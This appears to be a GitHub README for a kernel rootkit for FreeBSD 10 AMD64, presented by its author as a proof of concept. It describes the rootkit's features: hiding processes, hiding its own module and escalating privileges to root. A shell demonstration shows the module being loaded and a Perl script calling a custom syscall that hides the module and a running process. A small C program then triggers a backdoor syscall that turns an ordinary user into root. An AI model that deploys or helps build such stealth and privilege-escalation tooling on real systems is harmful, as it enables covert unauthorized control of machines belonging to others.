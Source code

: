 This is a small rootkit for FreeBSD 10 AMD64. Initially, it was just a POC for a rootkit I've written to test some stuff in MSR (Model Specific Registers) a long time ago but now I have added more two features in it. Now it can be used to hide a module or process and escalate the privileges to root. There's an easy way to know if this rootkit is already on the system, you just need to load the module again and the kernel will tell you if the file already exists or not.

It has been tested on FreeBSD 10.0-RELEASE AMD64.

Features:

Hide a process
Hide a module
Escalate the privileges to root

Demonstration:

```
$ su
Password:
root@rootkit:/usr/home/andersonc0d3 # kldload rootkit_amd64/rk.ko
root@rootkit:/usr/home/andersonc0d3 # exit
exit
$ cd rootkit_amd64
$ cat hideme.c
int main(void){
	while(1);
	return 0;
}
$ ./hideme &
$ echo $!
985
$ ps -p 985
PID TT  STAT    TIME COMMAND
985  0  R    0:06.57 ./hideme
$ kldstat
Id Refs Address            Size     Name
 1    6 0xffffffff80200000 16314c0  kernel
 2    1 0xffffffff81a12000 2a53     uhid.ko
 3    1 0xffffffff81a15000 4b0      rk.ko
$ cat exec.pl
#!/usr/bin/perl

use strict;
use warnings;

my $a="rk";
my $b="./hideme";

# syscall(210,1)  # hook the interrupt handler
#
# syscall (210,0) # remove the hook from interrupt handler
#
# call syscall to hide a module
#

syscall(210,3,$a);

# call syscall to hide a process
#
#
syscall(210,4,$b);
$ perl exec.pl
$ ps -p 985
PID TT  STAT TIME COMMAND
$ kldstat
Id Refs Address            Size     Name
 1    6 0xffffffff80200000 16314c0  kernel
 2    1 0xffffffff81a12000 2a53     uhid.ko
$ id
uid=1001(andersonc0d3) gid=1001(andersonc0d3) groups=1001(andersonc0d3),0(wheel)
$ cat getroot.c
#include <stdio.h>
#include <stdlib.h>

int main(void){
	
	asm("mov $0x31337,%rax");
	asm("syscall");

	return 0;
}
$ ./getroot
$ id
uid=0(root) gid=0(wheel) groups=0(wheel)
$ su
root@capsicum:/usr/home/andersonc0d3/rootkit_amd64 # kldunload rk
kldunload: can't find file rk
root@capsicum:/usr/home/andersonc0d3/rootkit_amd64 #
```

